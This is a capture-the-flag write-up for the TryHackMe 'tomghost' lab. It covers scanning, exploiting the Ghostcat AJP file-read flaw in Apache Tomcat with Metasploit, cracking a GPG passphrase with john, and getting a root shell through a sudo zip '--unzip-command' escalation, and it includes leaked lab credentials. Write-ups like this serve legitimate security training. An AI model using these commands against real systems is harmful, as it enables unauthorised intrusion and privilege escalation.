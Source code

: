 ## Title: tomghost
### https://tryhackme.com/room/tomghost
### IP: 10.10.50.24

#### Answer the questions below:

#### Compromise this machine and obtain user.txt
Answer format: ***{********************************}

#### Escalate privileges and obtain root.txt
Answer format: ***{********************************}

#### Nmap:

22: SSH

53: tcpwrapped

8009: ajp13 - Apache Jserv

8080: http - Apache Tomcat 9.0.30

Navigating to 10.10.50:8080 is just the default Apache Tomcat page.

#### Using dirb to recursively scan and locate any interesting directories or files:

dirb http://10.10.50.24 -R

#### Found directories:

http://10.10.50.24:8080/docs

http://10.10.50.24:8080/examples

http://10.10.50.24:8080/host-manager

http://10.10.50.24:8080/manager

Nothing too interesting in these.

#### Checking exploitDB for AJP vulns:

AJP 'Ghostcat' File Read/Inclusion (Also in Metasploit)

#### Using Metasploit:

msfconsole

search AJP

use 0

info

#### Options:

AJP_PORT: 8009

FILENAME: /WEB-INF/web.xml

RHOSTS: 10.10.50.24 (Target host)

RPORT: 8080 (Apache Tomcat webserver port)

SSL: false

#### Loot gathered:

skyfuck:8730281lkjlkjdqlksalks

Most likely SSH creds, trying them gets us access to skyfuck@ubuntu

#### Some quick enumeration:

ls: credential.pgp and tryhackme.asc

tryhackme.asc is the private key used to decrypt credential.pgp.

Running sudo -l and we don't have admin.

For now lets look for the user flag.

cd ..

ls: merlin & skyfuck

cd merlin

cat user.txt

#### Back to the other files. Lets copy them across with scp:

scp -p skyfuck@10.10.50.24:/home/skyfuck/tryhackme.asc tryhackme.asc

scp -p skyfuck@10.10.50.24:/home/skyfuck/credential.pgp credential.pgp

#### Using gpg2john we can turn the .asc file into a hash that john can attempt to crack:

gpg2john tryhackme.asc > tryhackme.txt

#### We can then attempt to crack this hash using john with a wordlist such as rockyou:

john -wordlist=/usr/share/wordlists/rockyou.txt.gz tryhackmeHash.txt

#### This gives us the passphrase alexandru, with this we can import the gpg key with:

gpg --import tryhackme.asc

#### And then decrypt the the credential.pgp file which gives us merlin's creds:

marlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

#### After SSHing in with these creds:

sudo -l: We can see that merlin is able to run /usr/bin/zip as root.

#### After some research I found the following article, showing how to pass commands through Zip:

https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/

#### Using the following commands we can spawn a shell as root:

touch text.txt

sudo zip 1.zip text.txt -T --unzip-command="sh -c /bin/bash"

#### Now we just look for the root flag:

cd root

cat root.txt

